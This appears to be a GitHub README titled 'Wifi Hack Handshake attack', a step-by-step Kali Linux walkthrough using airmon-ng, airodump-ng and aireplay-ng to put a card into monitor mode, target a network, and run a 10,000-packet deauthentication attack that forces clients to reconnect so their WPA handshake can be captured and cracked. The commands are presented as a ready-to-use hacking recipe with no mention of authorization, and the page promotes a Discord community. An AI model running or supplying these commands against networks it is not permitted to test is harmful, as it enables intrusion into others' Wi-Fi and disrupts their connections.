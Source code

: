 <h1 align="center">Wifi Hack Handshake attack</h1>

[![N|dc](https://i.hizliresim.com/3vwdudh.png)](https://discord.gg/5sYSzWQJ3Z)

<details> 
 <summary><strong>Contents (İçindekiler)</strong></summary>
 <p>

* Monitor - Managed mod
  - [mon & man](#monman)
* Airodump-ng
  - [Gathering information](#infonet)
* Aireplay-ng
  - [Attack/Handshake](#attack)

<br>
</details>

# Wifi Hack

## Catch Handshake

### ([▲](#top)) Monitor & Manage <a name="monman"></a>
`Turning on monitor mode`, example usage:
- `airmon-ng start <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng start wlan0
```
`Turning off monitor mode`, example usage:
- `airmon-ng stop <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng stop wlan0
```

### ([▲](#top)) Gathering information about networks <a name="infonet"></a>

`start monitoring networks`, airodump-ng <interface> example usage:

```
┌──(root💀kali)-[~]
└─# airodump-ng wlan0mon
```

```
BSSID = MAC Address
Power = PWR - Signal power
Data = the data we have
CH = Channel - What channel is it on
ENC = Encryption model
CIPHER = Decrypton model
ESSID = network name
Example airodump-ng usage:
```
- For the information gathering and deauthentication attack for the network to be attacked, we first need to enter the following line of code, example usage:
`airodump-ng --bssid <bssid> --channel <channel_number> --write <filename> <interface>`

```
┌──(root💀kali)-[~]
└─# airodump-ng --bssid 0A:1B:2C:3D:4E:5F --channel 5 --write handshake_file wlan0mon
```

### ([▲](#top)) Attack target <a name="attack"></a>

- Deauthentication attack, The product connected to wifi needs to be dropped from the network. Example usage:

`aireplay-ng --deauth <#packets> -a <target_MAC> -c <station> <interface>`

```
┌──(root💀kali)-[~]
└─# aireplay-ng --deauth 10000 -a 0A:1B:2C:3D:4E:5F -c 0A:1B:2C:3D:4E:5F wlan0mon
```

NOTE: Our goal here is to remove the user connected to our target network from the network and reconnect, and to capture and decrypt the encrypted numbers that occur in the air when the user wants to reconnect to the network.

`Soon, the program written in python will come.`

You can support us by joining our community, thanks for reading. > https://discord.gg/5sYSzWQJ3Z